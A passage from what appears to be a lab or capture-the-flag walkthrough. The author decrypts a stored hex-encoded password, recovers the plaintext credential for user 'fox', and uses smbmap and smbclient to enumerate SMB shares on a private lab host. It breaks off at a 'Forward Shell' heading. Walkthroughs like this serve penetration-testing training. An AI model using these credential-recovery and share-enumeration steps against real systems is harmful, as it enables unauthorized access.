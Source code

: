 We can decrypt each password and test it with both `ssh` and SMB. I extracted each of the passowrds like this:

```
$ echo '2c,0f,ff,76,ca,03,d7,c2,1c,0d,3c,8b,55,ed,d8,de,37,\
  f8,97,20,ae,6e,d3,82,d0,ad,2e,70,f9,7e,ff,ea,0b,0c,1c,d9,01,cb,d1,ad,90,fc,\
  60,1b,9e,40,fc,9c,4b,af,65,ee,c5,19,62,eb,4e,da,cc,7c,30,a8,a6,6b,0c,bd,9f,\
  36,2a,c0,ca,d1,59,89,04,ae,cb,8b,96,10' | tr -d ',' | tr -d '\\' | tr -d '\n' | tr -d ' '
2c0fff76ca03d7c21c0d3c8b55edd8de37f89720ae6ed382d0ad2e70f97effea0b0c1cd901cbd1ad90fc601b9e40fc9c4baf65eec51962eb4edacc7c30a8a66b0cbd9f362ac0cad1598904aecb8b9610
```

Then, decrypted them using the script:

```
$ python3 decrypt.py        
00000000: 69 00 70 00 61 00 72 00  61 00 6C 00 69 00 70 00  i.p.a.r.a.l.i.p.
00000010: 6F 00 6D 00 65 00 6E 00  69 00 64 00 65 00 6C 00  o.m.e.n.i.d.e.l.
00000020: 6C 00 61 00 62 00 61 00  74 00 72 00 61 00 63 00  l.a.b.a.t.r.a.c.
00000030: 6F 00 6D 00 69 00 6F 00  6D 00 61 00 63 00 68 00  o.m.i.o.m.a.c.h.
00000040: 69 00 61 00 00 00 00 00  00 00 00 00 00 00 00 00  i.a.............
None
iparalipomenidellabatracomiomachia
```

The password above is for the user `fox`, and using those credentials grants us access to another SMB Share.

```
$ smbmap -H 192.168.157.157 -u fox -p iparalipomenidellabatracomiomachia
[+] IP: 192.168.157.157:445     Name: 192.168.157.157                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        utils                                                   READ ONLY       Utilities
        print$                                                  READ ONLY       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
        fox                                                     READ, WRITE     Home Directories
```

### New Shares -> Forward Shell

This `print$` share has some interesting stuff:

```
$ smbclient -U fox //192.168.157.157/print$                             
Password for [WORKGROUP\fox]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan  9 02:03:48 2021
  ..                                  D        0  Tue Jul  4 04:18:20 2023
  W32X86                              D        0  Sat Jan  9 02:03:48 2021
  IA64                                D        0  Mon Sep  2 21:39:42 2019
  x64                                 D        0  Sat Jan  9 02:03:48 2021
  COLOR                               D        0  Mon Sep  2 21:39:42 2019
  W32PPC                              D        0  Mon Sep  2 21:39:42 2019
  WIN40                               D        0  Mon Sep  2 21:39:42 2019
  W32MIPS                             D        0  Mon Sep  2 21:39:42 2019
  W32ALPHA                            D        0  Mon Sep  2 21:39:42 2019
  color                               D        0  Sat Jan  9 02:03:48 2021
```
